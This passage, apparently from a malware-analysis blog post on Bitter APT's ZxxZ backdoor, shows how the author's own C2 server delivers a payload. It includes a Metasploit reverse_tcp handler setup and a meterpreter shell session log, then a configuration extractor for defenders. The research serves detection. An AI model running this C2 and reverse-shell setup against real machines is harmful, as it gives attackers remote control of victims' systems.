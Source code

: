 ```bash
./zxxz.py --host 0.0.0.0 --port 80 --debug --input payload.exe
```

Then in metasploit we need to setup our listener. Once we have the C2 server `zxxz.py` running, our payload created and `metasploit` listening for the `meterpreter` `reverse_tcp` callback. We can run the malware on the infected VM. This will yield us a successful execution of our own payload resulting in a *[meterpreter](https://www.metasploit.com/)* session.

```bash
msfconsole
> use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT <port>
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (175174 bytes) to <redacted>
[*] Meterpreter session 3 opened (<host>:<port> -> <redacted>:50218 ) at 2022-07-02 17:17:52 -0400

meterpreter > shell
Process 772 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\malware\AppData\Local\Updates>whoami
malware-pc\malware

C:\Users\malware\AppData\Local\Updates> C:\Users\malware>start "C:\Program Files\Mozilla Firefox\firefox.exe" "https://www.youtube.com/watch?v=dQw4w9WgXcQ"

C:\Users\malware\AppData\Local\Updates>exit
meterpreter >
```

##### Proof of Concept (PoC)
In this Proof of Concept (PoC) video I use my own C2 server for Bitter APT's ZxxZ backdoor and send my own `meterpreter` payload to the infected machine.

<iframe width="560" height="315" src="https://www.youtube.com/embed/m3jrWoQK6sI" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

##### Summary

This kind of C2 analysis is a lot of work. 👷‍♀

However, please consider the following benifits.

- Reliable detection signatures
- Scanning the internet for other potential C2 servers
- Debug future samples easier when the C2 server is down

## Configuration Extraction
Since we now understand how the malware decrypts its strings, I created an automated configuration extractor for [mwcfg](https://github.com/c3rb3ru5d3d53c/mwcfg). The following is an example of how to perform extraction on Bitter APT ZxxZ samples you might have.
